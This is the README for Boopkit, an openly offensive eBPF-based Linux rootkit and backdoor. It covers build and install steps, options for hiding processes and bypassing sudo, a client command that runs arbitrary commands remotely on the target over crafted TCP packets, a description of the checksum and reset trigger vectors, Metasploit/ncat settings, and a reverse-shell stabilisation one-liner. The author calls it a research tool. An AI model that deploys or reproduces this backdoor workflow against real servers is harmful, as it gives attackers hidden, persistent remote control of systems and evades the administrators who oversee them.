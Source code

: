 ```yaml
---

Please help me become an independent programmer by donating directly to my `ko-fi` site below.

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/D1D8CXLHZ) 

---
```



```
================================================================

    ██████╗  ██████╗  ██████╗ ██████╗ ██╗  ██╗██╗████████╗
    ██╔══██╗██╔═══██╗██╔═══██╗██╔══██╗██║ ██╔╝██║╚══██╔══╝
    ██████╔╝██║   ██║██║   ██║██████╔╝█████╔╝ ██║   ██║   
    ██╔══██╗██║   ██║██║   ██║██╔═══╝ ██╔═██╗ ██║   ██║   
    ██████╔╝╚██████╔╝╚██████╔╝██║     ██║  ██╗██║   ██║   
    ╚═════╝  ╚═════╝  ╚═════╝ ╚═╝     ╚═╝  ╚═╝╚═╝   ╚═╝   
    Author: Kris Nóva <kris@nivenly.com> Version 1.4.0
    
    IN NO EVENT SHALL THE COPYRIGHT OWNER OR CONTRIBUTORS BE 
    LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, 
    EXEMPLARY, OR CONSEQUENTIAL DAMAGES.    

    DO NOT ATTEMPT TO USE THE TOOLS TO VIOLATE THE LAW.
    THE AUTHOR IS NOT RESPONSIBLE FOR ANY ILLEGAL ACTION.
    MISUSE OF THE SOFTWARE, INFORMATION, OR SOURCE CODE
    MAY RESULT IN CRIMINAL CHARGES.
    
    Use at your own risk.

================================================================

Boopkit.
Linux rootkit and backdoor. Built using eBPF.

Usage: 
boopkit [options]

Options:
-h, help           Display help and usage for boopkit.
-i, interface      Interface name. lo, eth0, wlan0, etc
-s, sudo-bypass    Bypass sudo check. Breaks PID obfuscation.
-r, reverse-conn   Attempt a reverse RCE lookup if no payload found.
-q, quiet          Disable output.
-x, reject         Source addresses to reject triggers from.

```

Linux backdoor, rootkit, and eBPF bypass tools.
Remote command execution over raw TCP.

 - Tested on Linux kernel 5.16
 - Tested on Linux kernel 5.17
 - Remote code execution over TCP (SSH, Nginx, Kubernetes, etc)
 - Network gateway bypass (bad checksums, TCP reset)
 - Self obfuscation at runtime (eBPF process hiding)

##### Disclaimer

> This is **NOT** an exploit! This requires prior privileged access on a server in order to work!
> I am a professional security researcher. These are white hat tools used for research purposes only.
> Use this responsibly. Never use this software illegally.

![FSpgEXTacAYme8t](https://user-images.githubusercontent.com/13757818/168698377-9c1125d6-698d-4009-a599-56b275b54764.jpeg)

## Server Side

Download and build boopkit.

```bash
wget https://github.com/kris-nova/boopkit/archive/refs/tags/v1.3.0.tar.gz
tar -xzf v1.3.0.tar.gz 
cd boopkit-1.3.0/
make
sudo make install
```

Run boopkit in the foreground. 

```bash 
# Reject all boops on localhost and 10.0.0.1
boopkit -x 127.0.0.1 -x 10.0.0.1
```

Run boopkit in the background in quiet mode.

```bash 
# Danger! This can be VERY hard to stop! Run this at your own risk!
boopkit -q &
```

Boopkit is now running and can be exploited using the client `boopkit-boop` command line tool.

## Client Side

Download and build boopkit.

```bash
wget https://github.com/kris-nova/boopkit/archive/refs/tags/v1.2.0.tar.gz
tar -xzf v1.2.0.tar.gz 
cd boopkit-1.2.0/
make
sudo make install
```
Run boopkit-boop against the server.

```bash 
# ===================
RCE="ls -la"
# ===================
LHOST="127.0.0.1"
LPORT="3535"
RHOST="127.0.0.1"
RPORT="22"
boopkit-boop \
  -lhost $LHOST \
  -lport $LPORT \
  -rhost $RHOST \
  -rport $RPORT \
  -c "$RCE"
```

# Boop Vectors

Boopkit will respond to various events on the network. Both of which can be triggered with the `boopkit-boop` tool.

TCP Header Format. Taken from [RFC 793](https://datatracker.ietf.org/doc/html/rfc793#section-3.1). September 1981
```
        0                   1                   2                   3
        0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |          Source Port          |       Destination Port        |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |                        Sequence Number                        |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |                    Acknowledgment Number                      |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |  Data |           |U|A|P|R|S|F|                               |
       | Offset| Reserved  |R|C|S|S|Y|I|            Window             |
       |       |           |G|K|H|T|N|N|                               |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |           Checksum            |         Urgent Pointer        |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |                    Options                    |    Padding    |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       {                             data                              }
       {                             ....                              }
       {                             data                              }
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

### 1. Bad Checksum

First the `boopkit-boop` tool will send a malformed TCP SYN packet with an empty checksum to the server over a `SOCK_RAW` socket. This will trigger `boopkit` remotely regardless of what TCP services are running. This works against any Linux server running boopkit, regardless of the state of TCP services.

Use `-p` with `boopkit-boop` to only use this first vector.

⚠️ Some modern network hardware will DROP all malformed checksum packets such as the one required to exploit boopkit using this vector!

### 2. Sending ACK-RST packet

Next the `boopkit-boop` tool will complete a valid TCP handshake with a `SOCK_STREAM` socket against a remote TCP service such as SSH, Kubernetes, Nginx, etc. After the initial TCP handshake is complete, `boopkit-boop` will repeat the process a 2nd time.
The 2nd handshake will flip the TCP reset flag in the packet, trigger a TCP reset on the server.

Either of these tactics are enough to independently trigger boopkit.
Various network hardware and runtime conditions will make either tactic more viable.
Boopkit will try both, and respond to both by default.

# Boopscript

The `boopscript` file is a [Metasploit](https://github.com/rapid7/metasploit-framework) compatible script that can be used to remotely trigger the boopkit backdoor after `boopkit-boop` is installed on a remote Linux machine.

```bash
# boopscript
RHOST="127.0.0.1"
RPORT="22"
LHOST="127.0.0.1"
LPORT="3535"

NCAT="/usr/bin/ncat"
NCATLISTENPORT="3545"
```

### Compile Time Dependencies 

 - 'clang' 
 - 'bpftool'   Required for `libbpf`
 - 'xdp-tools' Required for `libxdp`
 - 'llvm'
 - 'pcap'
 - 'lib32-glibc'

### Reverse Shell Stabilization

```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

### References

 - [Tracepoints with BPF](https://lwn.net/Articles/683504/)
 - [Raw TCP Sockets](https://github.com/MaxXor/raw-sockets-example)
 - [Bad BPF](https://github.com/pathtofile/bad-bpf)

Credit to the original authors for their helpful code samples! I forked a lot of code for this project! 
